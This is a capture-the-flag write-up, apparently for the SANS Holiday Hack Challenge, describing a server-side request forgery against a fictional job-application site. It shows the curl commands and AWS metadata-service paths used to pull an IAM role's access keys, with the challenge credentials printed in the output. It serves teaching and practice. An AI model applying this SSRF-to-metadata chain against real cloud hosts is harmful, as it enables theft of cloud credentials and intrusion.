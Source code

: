 # Now Hiring!

Or how I learned to stop requesting and having the server request for me.

The basic idea of the site talks about how Jack Frost is hiring for all sorts of new positions, and allows you to apply for a position as long as your NLBI (Naughty List something something) report is valid. A sample link is listed: http://nppd.northpolechristmastown.com/NLBI/YourReportIdGoesHere

This site actually works! And was used in the SANS holiday hack challenge, 2017.

Since the form asks for a url, I wanted to see if it would reach out to me:

![TEMP](img/obj10/img1.png)

Sure enough, it did. Didn't really give me much to go on though.

![TEMP](img/obj10/img2.png)


Though I remember, this is an AWS instance. I wonder if I have access to the IMDS service?

![TEMP](img/obj10/img3.png)

Submitting...

![TEMP](img/obj10/img4.png)

Nothing really.

But after a lot of fuzzing, I discovered something interesting. Change the name to something really simple, like a number! I don't understand the logic there but here we are!

New submission...

![TEMP](img/obj10/img5.png)

The result!

![TEMP](img/obj10/img6.png)

A broken image...The image links to https://apply.jackfrosttower.com/images/99.jpg and it won't load. What happens if I cURL it?

```sh
root@mininode:~# curl https://apply.jackfrosttower.com/images/99.jpg
latest
```

It returns the string "latest"! I have access to the IMDS instance and can successfully return the output in the form of an image that I can cURL!

From the terminal, I can perform a GET to obtain the identity access management security role:

`http://169.254.169.254/latest/meta-data/iam/security-credentials`

And the output:

```sh
root@mininode:~# curl https://apply.jackfrosttower.com/images/99.jpg ; echo
jf-deploy-role
```

So with that, I can obtain the credentials by hitting `http://169.254.169.254/latest/meta-data/iam/security-credentials/jf-deploy-role`

And the output:

```sh
root@mininode:~# curl -s https://apply.jackfrosttower.com/images/99.jpg | jq
{
  "Code": "Success",
  "LastUpdated": "2021-05-02T18:50:40Z",
  "Type": "AWS-HMAC",
  "AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
  "SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
  "Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
  "Expiration": "2026-05-02T18:50:40Z"
}
```

Got the SecretAccessKey!
